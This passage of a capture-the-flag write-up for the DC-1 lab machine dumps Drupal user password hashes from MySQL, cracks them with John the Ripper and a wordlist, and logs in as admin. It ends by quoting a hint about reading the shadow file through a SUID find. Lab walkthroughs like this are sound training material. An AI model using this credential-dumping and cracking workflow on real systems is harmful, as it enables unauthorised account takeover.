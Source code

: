 ~~~

mysql> use drupaldb
use drupaldb
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> select name,pass from users;
select name,pass from users;
+---------+---------------------------------------------------------+
| name    | pass                                                    |
+---------+---------------------------------------------------------+
|         |                                                         |
| admin   | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred    | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
| test    | $S$DsVR8JPk6hASQb9WlYGVUyBqox7qAtxtWx3YNswcB.xb/tMOHzeY |
| myadmin | $S$DMtmBewP8Iq6dIpOscR8Z1RcLFp1clL9VcGInD6KAJNqu7NElHQG |
+---------+---------------------------------------------------------+
5 rows in set (0.01 sec)
~~~

## Crack the password hashes

Let's use John to crack the passwords:

~~~
kali@kali:/data/DC1/files$ cat hashes.txt 
admin:$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred:$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
kali@kali:/data/DC1/files$ /data/src/john/run/john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
MyPassword       (Fred)
53cr3t           (admin)
2g 0:01:45:55 DONE (2020-10-05 17:25) 0.000314g/s 352.6p/s 437.5c/s 437.5C/s 53cr3t5..539iron
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

## Connect as admin

Connect to http://dc1.box/ with `admin:53cr3t` and go to "Content". There is a post called `flag3`:

~~~
flag3

Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
~~~
